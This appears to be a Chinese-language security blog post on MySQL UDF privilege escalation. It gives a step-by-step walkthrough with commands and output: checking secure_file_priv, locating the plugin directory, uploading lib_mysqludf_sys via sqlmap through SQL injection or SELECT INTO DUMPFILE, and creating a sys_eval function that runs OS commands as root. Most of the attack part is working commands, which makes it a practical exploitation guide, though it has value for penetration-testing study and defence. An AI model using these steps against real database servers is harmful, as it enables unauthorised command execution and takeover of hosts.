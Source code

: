```yaml
---
title: UDF 提权
published: 2025-03-09 16:40:49
tags: [内网安全,提权思路]
category: 安全
draft: false
---
```


# UDF 提权

> https://www.sqlsec.com/2020/11/mysql.html#CVE-2012-2122
> 

自定义函数，是数据库功能的一种扩展。用户通􏰁自定义函数可以实现在 MySQL 中无法方便实现的功能，其添加的新函数都可以在 SQL 语句中调用，就像调用本机函数 `version()`等方便

### 前提secure_file_priv需要等于空或者等于插件目录

```sql
SHOW VARIABLES LIKE "secure_file_priv";
```

### **动态链接库**

如果是 `MySQL >= 5.1` 的版本，必须把 UDF 的动态链接库文件放置于 MySQL 安装目录下的 lib\plugin 文件夹下文件夹下才能创建自定义函数

动态链接库可以在`metasploit`获取

```sql
MSF 根目录/embedded/framework/data/exploits/mysql
//
lib_mysqludf_sys_32.dll
lib_mysqludf_sys_32.so  
lib_mysqludf_sys_64.dll  
lib_mysqludf_sys_64.so
```

### 寻找插件目录

```sql
mysql> show variables like '%plugin%';
+---------------+-----------------------+
| Variable_name | Value                 |
+---------------+-----------------------+
| plugin_dir    | /usr/lib/mysql/plugin |
+---------------+-----------------------+
```

如果不存在的话可以在 `webshell`中找到 MySQL 的安装目录然后手工创建 `\lib\plugin` 文件夹

### 写入**动态链接库**

SQL 注入且是高权限，plugin 目录可写且需要 `secure_file_priv` 无限制，MySQL 插件目录可以被 MySQL 用户写入，这个时候就可以直接使用 sqlmap 来上传动态链接库

```sql
sqlmap -u "http://localhost:30008/" --data="id=1" --file-write="/Users/sec/Desktop/lib_mysqludf_sys_64.so" --file-dest="/usr/lib/mysql/plugin/udf.so"
```

不过一般都是手工写文件到 plugin 目录下的

```sql
# 直接 SELECT 查询十六进制写入
SELECT 0x7f454c4602... INTO DUMPFILE '/usr/lib/mysql/plugin/udf.so';

# 解码十六进制再写入多此一举
SELECT unhex('7f454c4602...') INTO DUMPFILE '/usr/lib/mysql/plugin/udf.so';
```

文件的16进制可以通过mysql自带的hex函数编码

```sql
# 直接传入路径编码
SELECT hex(load_file('/lib_mysqludf_sys_64.so'));

# 也可以将路径 hex 编码
SELECT hex(load_file(0x2f6c69625f6d7973716c7564665f7379735f36342e736f));
```

一般可以

```sql
mysql> use mysql;

mysql> create table foo(line blob);
Query OK, 0 rows affected (0.00 sec)

mysql> insert into foo values (load_file('/tmp/lib_mysqludf_sys_64.so'))
Query OK, 1 row affected (0.00 sec)

mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/udf.so';
Query OK, 1 row affected (0.00 sec)
```

## 创建函数

```sql
mysql> create function sys_eval returns string soname 'udf.so';
Query OK, 0 rows affected (0.00 sec)

mysql> select * from mysql.func; 
+----------+-----+--------+----------+
| name     | ret | dl     | type     |
+----------+-----+--------+----------+
| sys_eval |   2 | udf.so | function |
+----------+-----+--------+----------+

mysql> select sys_eval('whoami'); // 函数存在root函数
+--------------------+
| sys_eval('whoami') |
+--------------------+
| root               |
+--------------------+
```